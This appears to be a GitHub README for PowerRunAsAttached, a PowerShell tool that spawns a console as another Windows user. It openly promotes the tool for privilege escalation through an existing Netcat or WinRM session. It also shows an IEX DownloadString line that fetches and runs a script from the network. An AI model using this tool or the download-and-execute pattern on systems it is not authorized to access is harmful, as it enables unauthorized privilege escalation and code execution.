 # PowerRunAsAttached

**PowerRunAsAttached** is a ported version of [RunAsAttachedLocal](https://github.com/DarkCoderSc/run-as-attached-local) in Powershell with inline CSharp.

This script allows to spawn a new interactive console as another user account in the same calling console (console instance/window).

One possible example is that this tool gives you with ease the possibility to do vertical / horizontal privilege escalation through your already established Netcat / WinRM session.

## Usage

You can use this PowerShell Application whether as a PowerShell Script or as a PowerShell Module.

### Import a new PowerShell Module (Generic Explanation)

To be available, the module must first be present in a registered module path.

You can list module paths with following command:

```powershell
Write-Output $env:PSModulePath
```

Example Output:

```
C:\Users\Phrozen\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\WINDOWS\system32\WindowsPowerShell\v1.0\Modules
```

Copy the module file `<module_name>.psm1` to desired module path.

You can use bellow command to check if your module was successfully imported:

```powershell
Get-Module -ListAvailable
```

Example Output:

```
PS C:\Users\Phrozen\Desktop> Get-Module -ListAvailable


    Directory: C:\Users\Phrozen\Documents\WindowsPowerShell\Modules


ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   <version>  <module_name>                       <available_exported_commands>

<..snip..>
```

If you don't see them, run the following commands and check back.

```powershell
Import-Module <module_name>

Import-Module <module_name>
```

### Import a new PowerShell Script (Generic Explanation)

It is not mandatory to install this application as a PowerShell module (Even if file extension is `*.psm1`)

You can also load it as a PowerShell Script. Multiple methods exists including:

Invoking Commands Using:

```powershell
IEX (Get-Content .\<module_name>.psm1 -Raw)
```

Loading script from a remote location: 

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/<module_name>.psm1')
```

## Available Functions

```powershell
Invoke-RunAsAttached
```

### Invoke-RunAsAttached

Spawn a new Windows command-line interpreter (cmd.exe) as another user.

#### Parameters

* `Username` (MANDATORY): A Valid Microsoft Windows User Account
* `Password` (MANDATORY): Associated account password

| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| Username (*)       | String           | None       | An existing Microsoft Windows local user account  |
| Password (*)       | String           | None       | Password of specified user account |

* = Mandatory Options

##### Example

```powershell
Invoke-RunAsAttached -Username "darkcodersc" -Password "testmepliz"
```

![Example](images/example.png)

## Demo Video

https://www.youtube.com/watch?v=n71apwuPZYw

## CSharp Version: `SharpRunAsAttached`

You will find an alternative version of this project in pure C# [HERE](https://gist.github.com/DarkCoderSc/60a18484fbda7bbb2a1ec0f2b1d42cb7#file-sharprunasattached-cs)
